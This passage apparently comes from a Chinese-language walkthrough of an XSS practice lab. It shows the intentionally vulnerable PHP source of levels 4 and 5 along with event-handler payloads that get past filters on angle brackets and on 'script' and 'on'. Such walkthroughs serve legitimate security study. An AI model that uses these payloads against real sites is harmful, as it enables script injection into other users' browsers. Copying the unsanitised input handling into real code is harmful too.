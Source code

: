 	' onmouseover=confirm(`xss`) \\


[JavaScript 事件参考手册](http://www.w3school.com.cn/jsref/jsref_events.asp)


事件通常与函数配合使用，这样就可以通过发生的事件来驱动函数执行。

**4关**

从第四关开始，就会有一些特殊字符的过滤了。现在考虑过滤了那些字符，以及如何进行绕过。

其中的源码如下。

	<?php 
	ini_set("display_errors", 0);
	$str = $_GET["keyword"];
	$str2=str_replace(">","",$str);
	$str3=str_replace("<","",$str2);
	echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
	<form action=level4.php method=GET>
	<input name=keyword  value="'.$str3.'">
	<input type=submit name=submit value=搜索 />
	</form>
	</center>';
	?>

从其中可以看到，`<，>`，两个尖括号被过滤了。如何绕过？

和第三关一样，使用不带有被过滤字符的`payload`。

	" onmouseover=confirm(1)//

关于绕过过滤字符的一个很好的案例，可以学习一下。

[搜狐视频储存型XSS（过滤了尖括号/圆括号/单引号等字符下的利用技巧）](https://www.secpulse.com/archives/47696.html)

**5关**

这一次将输入的`payload`进行了替换。比如输入`script`替换为了`sc_ript`。

看具体的代码如下。

	<?php 
	ini_set("display_errors", 0);
	$str = strtolower($_GET["keyword"]);
	$str2=str_replace("<script","<scr_ipt",$str);
	$str3=str_replace("on","o_n",$str2);
	echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
	<form action=level5.php method=GET>
	<input name=keyword  value="'.$str3.'">
	<input type=submit name=submit value=搜索 />
	</form>
	</center>';
	?>	


再使用`on`事件就不行了。比如以下的载荷。
	
	keyword="+onmouseover=alert(1)+//

